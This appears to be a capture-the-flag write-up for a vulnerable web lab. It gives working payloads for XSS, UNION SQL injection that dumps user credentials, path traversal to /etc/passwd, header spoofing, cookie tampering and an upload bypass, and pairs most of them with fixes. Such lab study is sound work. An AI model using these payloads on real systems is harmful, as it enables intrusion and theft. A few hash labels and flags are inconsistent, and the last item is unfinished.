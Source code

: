 # Exploits and Fixes

## 1. Hidden Email Exploit

### Exploit
By inspecting the HTML code of the password recovery page, we can see a hidden email field:

```html
<form action="#" method="POST">
    <input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
    <input type="submit" name="Submit" value= "Submit">
</form>
```

Changing the value of this hidden input allows unauthorized email changes and retrieval of sensitive information.

**Flag:** `d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0`

### Fix
- Remove hidden fields for sensitive data.
- Use session-based authentication.
- Validate server-side email recovery requests.

---

## 2. XSS via Feedback Form

### Exploit
Injecting a script in an input field triggers an alert:

```html
<svg onload=alert(1)>test
```

**Flag:** `0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e`

### Fix
- Escape user input using libraries like `htmlspecialchars()`.
- Implement Content Security Policy (CSP).
- Sanitize input before rendering.

---

## 3. File Upload Bypass

### Exploit
Altering the `multipart/form-data` header allows unauthorized file uploads:

```bash
curl -X POST -H "multipart/form-data" -F "uploaded=@./test.jpeg" -F "Upload=Upload" "http://172.19.71.187/?page=upload;type=image/jpeg" | grep flag
```

**Flag:** `46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`

### Fix
- Restrict file types and validate MIME types.
- Store uploads outside the web root.
- Scan uploaded files for malware.

---

## 4. HTTP Header Manipulation

### Exploit
Bypassing security checks using `Referer` and `User-Agent` headers:

```bash
curl -H "Referer: https://www.nsa.gov/" -H "User-Agent: ft_bornToSec" http://172.19.71.187/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f
```

**Flag:** `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

### Fix
- Avoid security based on headers alone.
- Implement authentication mechanisms.

---

## 5. SQL Injection

### Exploit
Using SQL injection to extract database information:

```sql
1 UNION ALL SELECT NULL,version()-- 
```

Extracting database names:

```sql
1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
```

Extracting table names:

```sql
1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema=0x4D656D6265725F53716C5F496E6A656374696F6E-- 
```

Extracting sensitive data:

```sql
1 UNION ALL SELECT NULL,concat(Commentaire,countersign) FROM users--
```

Cracking hashed password:

```bash
echo -n fortytwo | shasum -a 256
```

**Flag:** `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

### Fix
- Use prepared statements.
- Sanitize inputs.
- Implement web application firewalls (WAFs).

---

## 6. Image Metadata Extraction

### Exploit
Extracting data from `Member_images.list_images`:

```sql
1 UNION ALL SELECT NULL,concat(url,title,comment) FROM Member_images.list_images--
```

Decoding the MD5 hash:

```bash
echo -n albatroz | shasum -a 256
```

**Flag:** `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

### Fix
- Restrict database queries.
- Hide table structures.
- Implement access control measures.

---

## 7. Cookie Manipulation

### Exploit
Identifying weak hashing in cookies:

```bash
I_am_admin 68934a3e9455fa72420237eb05902327
```

Cracking the MD5 hash:

```bash
68934a3e9455fa72420237eb05902327 : false
```

Changing to `true`:

```bash
b326b5062b2f0e69046810717534cb09
```

**Flag:** `df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3`

### Fix
- Use secure cookie attributes.
- Implement HMAC-based session management.
- Enforce strong encryption algorithms.

---



# 8

### Exploit

when you naviguate to page you found this -> ?page=survey
So test to naviguate to hidden folder en boom 

http://172.19.71.187/?page=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd

Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 


# 9 

### Exploit

On the bottom on the page you found a redirect link to facebook instram and twitter

Just try to modify the redirect link with other things
http://172.19.71.187/index.php?page=redirect&site=test  and BOOM the flag

Good Job Here is the flag : b9e775a0291fed784a2d9680fcfad7edd6b8cdf87648da647aaf4bba288bcab3


# 10

### Exploit

When you visite the robot.txt
you shot that ->
http://172.19.71.187/robots.txt

User-agent: *
Disallow: /whatever
Disallow: /.hidden

so let's check what is inside 










